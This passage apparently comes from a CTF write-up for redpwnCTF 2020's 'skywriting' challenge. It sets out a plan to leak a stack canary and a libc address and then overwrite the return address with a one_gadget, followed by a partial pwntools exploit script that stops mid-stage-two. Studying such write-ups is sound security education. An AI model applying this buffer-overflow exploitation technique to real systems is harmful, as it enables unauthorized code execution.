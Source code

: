 Okay nice, let's use `__libc_start_main + 231` as an offset to resolve the rest of our addresses. So here's the game plan:

1. Leak stack canary
    - `<'A' * Padding to canary>`
2. Leak `__libc_start_main + 231`
    - `<'A' *  Padding to __libc_start_main + 231>`
3. Pwn
    - `<notflag{a_cloud_is_just_someone_elses_computer}\n\x00><'A' * Padding to canary><canary><Padding to RIP><one_gadget>`

Now let's write a script to solve it.

```python
#! /usr/bin/python3

from pwn import *

HOST = '2020.redpwnc.tf'
PORT = 31034
BINARY = './skywriting'

elf = context.binary = ELF(BINARY)
libc = ELF('./libc.so.6')  # glibc-2.27 (Ubuntu 18.04 default libc, based on provided Dockerfile)

libc.symbols['one_gadget'] = 0x4f322

'''
We pad until we are exactly just before the canary so that the null byte in the least significant byte
of the canary would be overwritten with a newline character. So that the null byte won't stop us from
leaking the full canary via printf
'''
CANARY_PADDING = 136
'''
We pad until we are one byte before __libc_start_main + 231 so that the newline won't overwrite any of
it's bytes.
'''
LIBC_START_MAIN_231_PADDING = CANARY_PADDING + 15
RIP_PADDING = CANARY_PADDING + 8 + 8

TRIGGER_RET = 'notflag{a_cloud_is_just_someone_elses_computer}\n\x00'

splash()

r = remote(HOST, PORT)

with log.progress('Stage 1: Leak canary'):
    r.recvuntil('Hello there, do you want to write on the sky? \n')
    r.sendline('1')

    r.recvuntil('Is the answer intuitive yet? Give it your best shot: ')

    PAYLOAD = flat(length = CANARY_PADDING)
    r.sendline(PAYLOAD)

    r.recvline()
    canary = u64(b'\x00' + r.recvn(7)) # Fix width for canary

    r.success(f'Leaked canary: {hex(canary)}')

with log.progress('Stage 2: Leak (__libc_start_main + 231)'):
    r.recvuntil('Try again, give it another shot: ')
```